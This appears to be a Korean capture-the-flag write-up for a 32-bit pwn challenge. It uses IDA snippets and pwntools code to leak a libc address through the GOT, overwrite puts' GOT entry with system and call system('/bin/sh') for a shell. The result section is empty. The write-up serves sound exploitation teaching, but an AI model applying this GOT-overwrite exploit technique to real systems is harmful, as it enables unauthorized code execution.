

## 함수 분석 / 취약점 발견
### ida analysis
할 수 있는 행동은 크게 세가지이다.
1. 1을 입력한 경우, 특정 주소의 값을 알아낼 수 있다.
```
  printf("How far have your ball gone?");
  __isoc99_scanf("%x", &v2);
  puts("Wow! It's Nice score!!!");
  printf("There are something on 0x%x, it's %s\n\n", v2, v2);
```
* 이걸로 libc의 주소를 leak할 수 있다(승윤아 고마워)
* puts의 got에 puts의 실제 주소가 존재하므로, puts의 got의 주소를 입력하면 puts의 주소를 알 수 있고, 이는 libc의 주소를 알 수 있음을 의미한다.

2. 2를 입력한 경우, 특정 주소에 특정 값을 입력하고 0x804a030에 특정 값을 입력하고 puts(*a)를 실행시킨다.
```c
  printf("How far have your ball gone?");
  __isoc99_scanf("%x", &v2); // puts_got
  printf("And.... What was there?");
  __isoc99_scanf("%x", v2); // system addr
  printf("Oh, Good! And, What's your name?");
  read(0, &unk_804A030, 9u);
  printf("Thanks %s", &unk_804A030);
  printf("The number of your challenges:");
  puts(*a1); // system("/bin/sh")
```
* puts(*a1)에서 system("/bin/sh"의 주소)의 형태롤 보았다.
* 단 한번 특정 주소의 값을 변경시킬 수 있는데, a1에 /bin/sh의 주소를, puts의 got에 system의 주소를 입력하면 `system("/bin/sh")`이 실행된다!

3. 1, 2가 아닌 값을 입력한 경우, a의 값을 129347만큼 증가시킨다.
```c
    else
    {
      v1[0] += 129347;
    }
```
* 현재 남은 재원은 0x804a30에 문자열을 입력하는것과 a의 값을 129347만큼 증가시키는건데,
* 마침 0x804a30 = 129347 * 0x410 이다. name에 /bin/sh을 입력하고 a의 값을 0x804a30만큼 증가시키면 된다.

## 구현
1. leak the puts address in libc, and get system address
```python
p.recvuntil('it\'s ')
puts_addr = p.recv(4)
stringlength=len(puts_addr) # calculate length of the list
slicedString=puts_addr[stringlength::-1] # slicing 
puts_addr_hex = int((slicedString).hex(), 16)
log.info('puts_addr_hex = 0x%x' % puts_addr_hex) # print the reversed string
system_addr_hex = puts_addr_hex - 0x2c4a0
log.info('systems_addr_hex = 0x%x' % system_addr_hex) # print the reversed string
p.recvuntil('2\n')
```
2. increase a to 0x804A030 = 0x410 * 129347, which is same to /bin/sh's address
```python
for i in range(0, 0x410):
    p.sendline(b'3')
    p.recvuntil('2\n')
```
3. overwrite system addr_hex on puts_got_addr
```
p.sendline(b'2')
p.recvline()
# p.interactive()
p.sendline(puts_got_str)
p.sendline(str(hex(system_addr_hex))[2:])

p.sendline('/bin/sh\x00')
```

## result
